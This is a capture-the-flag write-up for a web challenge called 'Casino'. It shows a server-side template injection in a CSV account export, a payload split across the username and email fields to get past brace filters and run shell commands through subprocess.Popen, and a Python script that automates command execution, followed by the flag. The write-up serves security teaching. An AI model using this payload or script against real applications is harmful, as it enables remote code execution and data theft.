 ## Casino

### Description

Welcome, everyone !
Welcome to WebTopia's Casino !
Witness the wonders of this marvelous place, take your time, enjoy it...
...
_and please don't look too much for vulnerabilities_

**Authors : algorab & Sto**

### Solution

We are facing a web application that allows to create an account in order to play at a wonderful casino game.
After playing for a (way too long, how can this be so addictive) while, we finally discover that there is also an export account data functionality.
We can also see that the application is a Python application, by reviewing the headers of the response:
```
$ curl -I http://localhost:5000/

HTTP/1.1 302 FOUND
Server: Werkzeug/3.0.4 Python/3.13.3
Date: Wed, 09 Apr 2025 11:17:52 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 217
Location: /login?next=%2F
Vary: Cookie
Set-Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIlBsZWFzZSBsb2cgaW4gdG8gYWNjZXNzIHRoaXMgcGFnZS4iXX1dfQ.Z_ZXYA.kXKRY3S5oU6HvrClxTCWBMmAD-g; HttpOnly; Path=/
Connection: close
```

We then can try to look for SSTI!

The account information exportation option gives a CSV file that contains among other information our username and mail. Therefore, we can try to inject stuff in those fields. After some tests, we can clearly see that there are some filters here. Especially, if the field contains both `{` and `}`, it gets sanitized. There are also filters for XSS and SQLi related characters.
Therefore, we have to craft a payload that uses both the username and the email field. Then, we will be able to achieve RCE using the SSTI.

Here is the general synthax of the final payload:
```json
{"username":"{{ \"\"\"", 
"email": "\"\"\".__class__.mro()[1].__subclasses__()[524](\"payload\",shell=True,stdout=-1).communicate()[0].strip()}}",
"password": "hello"}
```

Let's break down the payload. The `username` field contains two opening brackets to start the SSTI. Then, it contains three double quotes, to create a string from all the text between the end of the username field and the beginning of the email field in the CSV file. After that, the `email` field closes the string, and accesses the `subprocess.Popen` function to execute the payload. The subclass index can vary depending on your version of python.

Here is a script that allows to automate the process:

```python
import requests
import secrets
from base64 import b64decode

url = "http://localhost:5000/"

while True:

    payload = input(">>> ") + " | base64 | tr -d '\n'"

    prefix = secrets.token_hex(32)
    s = requests.Session()

    s.post(url+"register", {'username':prefix+'{{ """', 
                                'email': '""".__class__.mro()[1].__subclasses__()[528]("'+payload+'",shell=True,stdout=-1).communicate()[0].strip()}}',
                                'password': 'test'})
    s.post(url+"login", {'username':prefix+'{{ """', 'password': 'test'})
    resp = s.get(url+"export")
    print(b64decode(resp.text.split("&#39;")[1]).decode())
```

Using this script, we can find the `.passwd` file containing the flag.

### Flag

`N0PS{s5T1_4veRywh3R3!!}`